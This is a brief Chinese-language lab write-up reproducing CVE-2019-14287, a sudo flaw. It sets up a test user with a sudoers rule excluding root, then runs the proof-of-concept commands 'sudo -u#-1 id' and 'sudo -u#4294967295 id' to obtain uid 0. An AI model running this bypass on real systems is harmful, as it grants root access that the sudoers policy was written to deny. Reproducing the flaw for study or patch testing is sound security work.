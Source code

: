 CVE-2019-14287 sudo 权限绕过
----

咱不说原理，就说复现步骤，原理请自行google，或移步：
http://vulsee.com/archives/vulsee_2019/1015_9074.html

默认情况下，在大多数Linux发行版中如图所示，/etc /sudoers文件中RunAs规范中的ALL关键字允许admin或sudo组中的所有用户以系统上的任何有效用户身份运行任何命令。

#### 利用前提

用户具有 sudo 权限

####  复现过程

- 新建一个测试用户 axin
```
1. useradd axin 创建一个用户
2. passwd axin 给创建的用户设置密码
```



- 配置/etc/sudoers文件（对于这个配置文件不太了解的，可以多看看漏洞原理）
在sudoers文件中添加一行`axin ALL=(ALL:!root) ALL`

![](assets/sudoers.png)



- 然后切换到测试用户axin,执行我们的poc
```
sudo -u#-1 id 或者 sudo -u#4294967295 id
```
![](assets/poc.png)

通过截图可以看到，原本我们的axin用户的uid是1000的，但是执行了我们的poc过后就变成了0,uid为0也正是root用户


至此，漏洞复现结束
